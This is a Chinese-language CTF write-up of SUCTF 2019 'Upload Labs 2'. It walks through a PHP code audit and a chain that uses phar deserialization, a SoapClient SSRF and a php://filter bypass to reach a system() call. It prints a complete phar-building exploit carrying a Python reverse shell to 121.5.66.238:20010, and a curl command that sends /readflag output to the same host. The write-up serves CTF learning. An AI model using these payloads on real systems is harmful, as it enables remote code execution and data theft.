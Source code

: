 # \[SUCTF 2019]Upload Labs 2

## \[SUCTF 2019]Upload Labs 2

## 考点

* 代码审计
* phar反序列化
* PHP SoapClient 反序列化触发SSRF
* 使用phar://缺不能以phar开头时，可以使用`php://filter/resource=phar://`
* finfo\_file() 结合 php://filter 触发 phar 反序列化

## wp

有两个功能，上传图片和查看图片信息。

给了源码，和修改后的admin.php，要进行审计

index. php是文件上传功能，白名单限制。func.php是文件读取功能，返回文件的MIME。class.php定义了File类和Check类。至此基本判断是phar反序列化。

首先是index.php，说明了上传路径为 `upload/md5($_SERVER["REMOTE_ADDR"])`，然后采用白名单的方式限制后缀和content-type，最后调用Check类的check函数对上传文件内容做一个检查，不允许`<?`存在。对于func.php，是获取上传的文件，采用黑名单的方式封禁了很多PHP伪协议。然后调用自定义的File类来获取文件

然后找获取flag的地方，在admin.php的Ad类的`__destruct()`使用了system函数，也就是说要<mark style="background-color:orange;">对Ad类进行实例化，或者反序列化</mark>。

```php
class Ad{
    public $cmd;
    public $clazz;
    public $func1;
    public $func2;
    public $func3;
    public $instance;
    public $arg1;
    public $arg2;
    public $arg3;
    function __construct($cmd, $clazz, $func1, $func2, $func3, $arg1, $arg2, $arg3){
        $this->cmd = $cmd;
        $this->clazz = $clazz;
        $this->func1 = $func1;
        $this->func2 = $func2;
        $this->func3 = $func3;
        $this->arg1 = $arg1;
        $this->arg2 = $arg2;
        $this->arg3 = $arg3;
    }
    function check(){
        $reflect = new ReflectionClass($this->clazz);
        $this->instance = $reflect->newInstanceArgs();
        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func1);
        $reflectionMethod->invoke($this->instance, $this->arg1);
        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func2);
        $reflectionMethod->invoke($this->instance, $this->arg2);
        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func3);
        $reflectionMethod->invoke($this->instance, $this->arg3);
    }
    function __destruct(){
        system($this->cmd);
    }
```

接着看，在admin.php中如果是本地访问，并且POST参数admin，就可以实例化Ad类，并且Ad类的参数都可以用POST提交。

```php
if($_SERVER['REMOTE_ADDR'] == '127.0.0.1'){
    if(isset($_POST['admin'])){
        $cmd = $_POST['cmd'];

        $clazz = $_POST['clazz'];
        $func1 = $_POST['func1'];
        $func2 = $_POST['func2'];
        $func3 = $_POST['func3'];
        $arg1 = $_POST['arg1'];
        $arg2 = $_POST['arg2'];
        $arg3 = $_POST['arg3'];
        $admin = new Ad($cmd, $clazz, $func1, $func2, $func3, $arg1, $arg2, $arg3);
        $admin->check();
    }
}
```

但是Ad类的`check()`函数的含义是什么？首先通过反射获取`$this->clazz`类，然后构造一个没有属性的`$this->clazz`类的实例化对象，最后分别获取`$this->clazz`类的`$this->func1`，`$this->func2`，`$this->func3`函数，并分别把`$this->arg1`，`$this->arg2`，`$this->arg3`传入执行。通过反射创建的类大概如下，这里类的方法和其参数都可以相同。

```php
Class clazz{
    function func1($arg1){
        ...
    }
    function func2($arg2){
        ...
    }
    function func3($arg3){
        ...
    }
}
```

这里可以使用<mark style="background-color:red;">SplStack类和它的push方法</mark>。POST数据

```
admin=1&cmd=curl "http://121.5.66.238:20010/?a=`/readflag`"&clazz=SplStack&func1=push&func2=push&func3=push&arg1=123456&arg2=123456&arg3=123456
```

要想让 admin.php 去实例化Ad类，就要让 REMOTE\_ADDR 为 127.0.0.1，即本地访问，接下来的问题就是如何去实现SSRF

而在反序列化里面可以实现SSRF的是SoapClient类，接下来就要找触发SoapClient 的位置。<mark style="background-color:orange;">可以看到在 File 类中的 \_\_wakeup() 存在一个反射，那就可通过这个反射，来获取SoapClient对象，然后调用SoapClient对象的check函数，这个check函数SoapClien中并不存在，就可以触发SoapClient的SSRF</mark>

```php
class File{
    public $file_name;
    public $type;
    public $func = "Check";
    function __construct($file_name){
        $this->file_name = $file_name;
    }
    function __wakeup(){
        $class = new ReflectionClass($this->func);
        $a = $class->newInstanceArgs($this->file_name);
        $a->check();
    }
    function getMIME(){
        $finfo = finfo_open(FILEINFO_MIME_TYPE);
        $this->type = finfo_file($finfo, $this->file_name);
        finfo_close($finfo);
    }
    function __toString(){
        return $this->type;
    }
}
```

接下来就是如何让 File() 类反序列化。finfo\_file可以触发phar反序列化，但是在 fuc.php 不能传 phar:// 开头的字符串。<mark style="background-color:green;">在PHP中，php://filter/resource这个伪协议可以触发phar反序列化，所以在 fuc.php 不能传 phar:// 开头的字符串，可以使用 php://filter/resource=phar://......进行绕过</mark>

这里直接放反弹shell的exp

```php
<?php

class File{
	public $file_name;
	public $func="SoapClient";
	public function __construct(){
		$payload='admin=1&cmd=python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("121.5.66.238",20010));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'&clazz=SplStack&func1=push&func2=push&func3=push&arg1=123456&arg2=123456&arg3=123456';
		$this->file_name=[null,array('location'=>'http://127.0.0.1/admin.php','user_agent'=>"xxx\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: ".strlen($payload)."\r\n\r\n".$payload,'uri'=>'abc')];
	}	
}
$a=new File();
@unlink("phar.phar");
$phar=new Phar("phar.phar");
$phar->startBuffering(); 
$phar->setStub('GIF89a'.'<script language="php">__HALT_COMPILER();</script>');
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>
```

使用上面的exp生成phar，改名为1.gif，再上传。在vps监听端口，在 fuc.php 中输入`php://filter/resource=phar://upload/cc551ab005b2e60fbdc88de809b2c4b1/b1467d0a5330091b554e2d892f7e8308.gif`，就可以反弹shell了

![](<../../.gitbook/assets/image (14) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (34) (1) (1) (1) (1) (1) (1) (1).png>)

或者是cmd改成``curl "http://121.5.66.238:20010/?a=`/readflag`"``直接获取flag

![](<../../.gitbook/assets/image (24) (1) (1) (1) (1) (1) (1).png>)

## 小结

1. 原题预期解是MySQL 客户端任意文件读取（MySQL Client Attack），改代码后简化了很多
2. [SUCTF 2019 Upload labs 2 踩坑记录](https://www.cnblogs.com/peri0d/p/12465523.html)
3. [https://www.cnblogs.com/tr1ple/p/11394464.html](https://www.cnblogs.com/tr1ple/p/11394464.html)
